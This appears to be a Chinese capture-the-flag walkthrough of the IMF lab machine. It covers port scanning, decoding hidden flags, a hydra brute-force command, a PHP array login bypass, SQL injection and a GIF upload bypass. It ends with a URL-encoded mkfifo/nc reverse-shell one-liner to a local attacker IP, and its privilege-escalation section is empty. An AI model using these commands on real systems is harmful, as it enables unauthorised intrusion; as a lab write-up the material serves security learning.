## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/IMF]
└─$ sudo nmap -sT -sCV -O -p 80 192.168.110.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-22 02:45 EDT
Nmap scan report for 192.168.110.133
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: IMF - Homepage
MAC Address: 00:0C:29:2E:CA:9A (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (93%), Linux 3.16 - 4.6 (93%), Linux 3.2 - 4.9 (93%), Linux 4.4 (93%), Linux 4.2 (90%), Linux 3.13 (90%), Linux 3.18 (88%), OpenWrt Chaos Calmer 15.05 (Linux 3.18) or Designated Driver (Linux 4.1 or 4.4) (87%), Linux 4.10 (87%), Android 5.0 - 6.0.1 (Linux 3.4) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.46 seconds
```

只开了80端口

## web渗透

在concat页面找到一个flag值

base64解码得到：allthefiles
allthefiles没有找到利用点，也不是目录

同样位置查看源代码处找到三段base64

拿去base64解码得到第二个flag:imfadministrator
这个字符串是个目录


我无法让 SQL 工作，所以我硬编码了密码。它仍然很安全。 - 罗杰
意思是没法sql注入吗
用其它用户试试

发现这个地方变成了invaild passwd
说明存在这个用户rmichaels
开始爆破密码
```bash
┌──(kali㉿kali)-[~/workspace/IMF]
└─$ sudo hydra -l rmichaels -P /usr/share/wordlists/rockyou.txt 192.168.110.133  -s 80 http-post-form  "/imfadministrator/:user=^USER^&pass=^PASS^:F=Invalid
"Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-22 03:35:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.110.133:80/imfadministrator/:user=^USER^&pass=^PASS^:F=Invalid
[STATUS] 301.00 tries/min, 301 tries in 00:01h, 14344098 to do in 794:15h, 16 active
```
但是这里不是用这种方式进的后台
用的是php的漏洞
将pass输入改为数组，触发报错

flag3:continueTOcms
来到cms
看到有个参数控制页面

存在sql注入
用sqlmap跑出了一个隐藏的图片

扫码得到如下信息

解码：uploadr942.php
那么就找到上传口了

上传口做了校验，不能上传php不能上传图片马但是能利用gif绕过
使用gif执行命令


rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.110.128%202333%20%3E%2Ftmp%2Ff
成功反弹shell


## 提权
暂无